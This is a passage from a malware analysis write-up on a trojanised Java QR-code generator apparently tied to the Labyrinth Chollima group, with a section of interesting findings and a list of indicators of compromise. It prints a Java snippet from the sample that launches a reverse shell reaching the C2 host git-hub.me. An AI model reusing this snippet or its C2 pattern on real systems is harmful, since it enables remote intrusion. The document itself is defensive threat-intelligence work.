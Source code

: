 - Then the command java $TEMP/prefTmp.java $UID https://www.git-hub.me/view.php is executed, acting as a reverse shell. 

```java
String cmdline = "java " + org_path + " " + uid + " " + POST_URL;
Runtime.getRuntime().exec(cmdline);
Thread.sleep(3000);
```

### Interesting details

- Having performed reverse engineering on the sample and understanding how it communicates with its C2 (Command and Control), I decided to send contact requests to it using my Telegram alias in an attempt to secure a brief interview with the group. Their response was a large-scale SSH Bruteforce attack against the IP address from which I had sent the requests. Since this system was actually a honeypot, it was possible to record all the offensive infrastructure they used in the operation and dump it into an intelligence pulse [[4]](#references). Plaintext version can be found [here](https://github.com/BirminghamCyberArms/QRLOG/blob/main/iocs/labyrinth_chollima_attack_infrastructure.csv).

- The `inputFiles.lst` file contains Maven build information. From it, it is possible to know that the author of the malware calls himself *Edward* and uses a Windows platform:
  
```bash
#[...]
[...]/default-compile/inputFiles.lst:275:C:\Users\Edward\Downloads\qr-code-generator-and-reader-master\qr-code-generator-and-reader-master\src\main\java\com\google\zxing\common\detector\MathUtils.java
[...]/default-compile/inputFiles.lst:276:C:\Users\Edward\Downloads\qr-code-generator-and-reader-master\qr-code-generator-and-reader-master\src\main\java\com\client\result\VEventResultParser.java
[...]/default-compile/inputFiles.lst:277:C:\Users\Edward\Downloads\qr-code-generator-and-reader-master\qr-code-generator-and-reader-master\src\main\java\com\google\zxing\oned\Code128Writer.java
#[...]
  ```

- This investigation was accepted as a Talk for the Recon Village at DEF CON 31 [[5]](#references).

<a name="indicators"></a>
## IOCs

- [OpenIOC version](https://github.com/birminghamcyberarms/QRLOG/blob/main/iocs/8cdccc15-5563-48bf-9493-7730aa19517c.ioc)
- Plaintext version (see below)
- [Labyrinth Chollima Adversary Infrastructure](https://github.com/BirminghamCyberArms/QRLOG/blob/main/iocs/labyrinth_chollima_attack_infrastructure.csv)

```
File:QRLog.java
File:prefTmp.java
File:QRCodeGenerator_Java.zip
File:AppleAccount.pdf
File:AppleAccountAgent
File:p.dat
IP:45.77.123.18
IP:3.90.35.35
URL:auth.pxaltonet.org
URL:www.git-hub.me
URI:/file/d/1J6943NKwGIcWHh7lj4o9gJe__9p7F1o7/view
MD5:0fb16054a1486b754d1fcc5c6b6e1b01
MD5:26b7d315dd19eb932a08fe474e0f0c31
```
